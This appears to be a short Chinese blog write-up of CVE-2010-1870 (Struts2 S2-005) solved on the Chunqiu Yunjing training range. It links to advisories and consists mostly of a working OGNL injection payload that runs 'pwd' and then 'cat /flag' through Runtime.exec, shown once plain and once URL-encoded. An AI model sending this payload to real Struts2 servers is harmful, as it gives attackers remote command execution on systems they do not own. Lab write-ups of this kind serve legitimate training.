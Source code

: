 ```yaml
---
title: "CVE-2010-1870"
date: 2024-07-25
tags: ["春秋云镜","CVE","Struts2","RCE"]
draft: false
---
```


<https://nvd.nist.gov/vuln/detail/CVE-2010-1870>

<https://www.exploit-db.com/exploits/14360>

<https://cwiki.apache.org/confluence/display/WW/S2-005>

S2-005

## 演示

环境: [春秋云镜 免费空间>CVE-2010-1870](https://yunjing.ichunqiu.com/cve/detail/953)

### 1.验证

![](https://static.guyu.pro/yunjing.ichunqiu.com/953/1.webp)

```java
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'pwd\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

url编码后

```java
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'pwd\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![](https://static.guyu.pro/yunjing.ichunqiu.com/953/2.webp)

### 2.利用

```java
('%5C43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('%5C43context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5C75false')(b))&('%5C43c')(('%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET')(c))&(g)(('%5C43mycmd%5C75%5C'cat%20/flag%5C'')(d))&(h)(('%5C43myret%5C75@java.lang.Runtime@getRuntime().exec(%5C43mycmd)')(d))&(i)(('%5C43mydat%5C75new%5C40java.io.DataInputStream(%5C43myret.getInputStream())')(d))&(j)(('%5C43myres%5C75new%5C40byte%5B51020%5D')(d))&(k)(('%5C43mydat.readFully(%5C43myres)')(d))&(l)(('%5C43mystr%5C75new%5C40java.lang.String(%5C43myres)')(d))&(m)(('%5C43myout%5C75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('%5C43myout.getWriter().println(%5C43mystr)')(d))
```

![](https://static.guyu.pro/yunjing.ichunqiu.com/953/3.webp)